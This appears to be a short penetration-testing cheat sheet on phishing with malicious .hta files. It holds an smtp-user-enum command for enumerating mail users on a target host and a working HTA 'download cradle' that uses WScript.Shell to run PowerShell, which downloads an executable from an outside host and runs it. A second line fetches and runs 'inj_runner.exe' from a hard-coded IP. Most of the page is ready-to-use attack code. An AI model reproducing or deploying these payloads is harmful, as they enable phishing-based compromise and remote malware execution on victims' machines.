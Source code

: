 ## Phishing via .hta files

- if Office does not appear to be working for you, can try sending an email with a malicious .hta file link.

### Enumerating email users

Try using smtp-user-enum with the Seclists's names.txt
For the mode, use telnet to connect and try VRFY, EXPN and RCPT to see which works

```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -D tricky.com -t 192.168.174.159
```

### PowerShell Download Cradle

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell iwr -uri http://IP:PORT/file.exe -outfile C:\\path\\to\\file.exe;C:\\path\\to\\file.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>

```
if the above doesnt work try
```
var ress = shell.Run("powershell.exe wget http://172.21.23.10/inj_runner.exe -o C:\\users\\public\\runner.exe; C:\\users\\public\\runner.exe");
```
